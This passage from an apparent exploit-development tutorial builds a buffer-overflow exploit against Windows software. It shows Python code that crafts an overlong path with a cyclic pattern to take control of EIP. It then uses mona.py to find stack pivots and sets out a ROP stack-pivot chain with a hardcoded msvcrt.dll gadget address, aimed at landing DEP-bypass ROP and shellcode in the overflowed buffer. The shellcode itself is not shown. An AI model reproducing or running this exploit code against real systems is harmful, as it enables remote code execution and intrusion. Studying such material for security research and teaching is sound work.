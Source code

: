   
##  Control EIP

  From their, you go the usual dance find the offsets, to control **EIP** you can use the pattern trick, for that you will replace the **78** B's with the pattern and fire the exploit again the crash should look like this:  
  
  
   ![Offset]({{ site.url }}/assets/offset-msp.png) 
   ![Offset]({{ site.url }}/assets/offset-dbg.png) 
   
 The Change to the result above is: 
 
{% highlight python %}
    
trigger = to_unicode("\\..\\..\\")
fbpath = "A" * 508
pad = to_unicode("ACSDPOX")
# size: 78
spath = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5"
path = to_unicode(prefix) + fbpath + trigger + pad + spath + "\x00" * 2
    
print "Evil path size: %s" % len(path)
	
{% endhighlight %}

After that we control the **EIP** its time to call our secret weapon, **MONA.py**, and search for rop chains and stack pivots, the idea was to use the space full of A's to store the **DEP ROP** and **shellcode** for that we will use the remainding space to build a rop chain and jump into that area.  

##  Rop your way into the shellcode

After running mona with "stackpivot -cpd '\x00\x0a\x0d' -m msvcrt.dll,shell32.dll", i decided to go with:  

{% highlight python %}
 ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
{% endhighlight %}

Given that you need figger out the offets after each jump, after that our rop jump trick should have suscessfuly landed into the A's so things will look like the following: 


{% highlight python %}
	
	jump = pack("<L", 0x77BDF444)
	
	stackpivot = [
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        "\x44" * 14,
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        "\x46" * 2,
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        "\x46" * 16,
        jump, # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
    ]
	
    return ''.join(stackpivot)
	
{% endhighlight %}
